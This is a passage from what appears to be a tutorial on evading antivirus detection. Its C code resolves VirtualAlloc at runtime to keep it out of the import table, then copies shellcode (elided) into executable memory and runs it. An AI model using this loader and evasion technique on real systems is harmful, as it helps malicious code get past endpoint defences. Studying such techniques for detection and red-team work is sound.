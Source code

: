 ![](/assets/suspiciousfunctionimports.png)

Note that the `VirtualAlloc` function is imported by our executable. AV solutions consider these imports when evaluating whether or not our executable is malicious. Therefore we should avoid suspicious function imports like the `VirtualAlloc` function.

## Dynamic function resolution
It is possible to dynamically resolve function addresses using the `GetModuleHandle` or `LoadLibraryA` and `GetProcAddress` functions. By using these functions we could avoid importing `VirtualAlloc`:
```
#include <stdio.h>
#include <windows.h>

int main() {
  unsigned char shellcode[] = [...];
  unsigned char* base_address = (unsigned char*(WINAPI*)(LPVOID,SIZE_T,DWORD,DWORD))GetProcAddress(GetModuleHandle("Kernel32.dll"), "VirtualAlloc")(NULL, sizeof(shellcode), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
  memcpy(base_address, shellcode, sizeof(shellcode));
  ((void(WINAPI*)(void))base_address)();
}
```
As can be seen in the following screenshot the `VirtualAlloc` function is  now no longer imported, but the functions used for resolving it will be imported: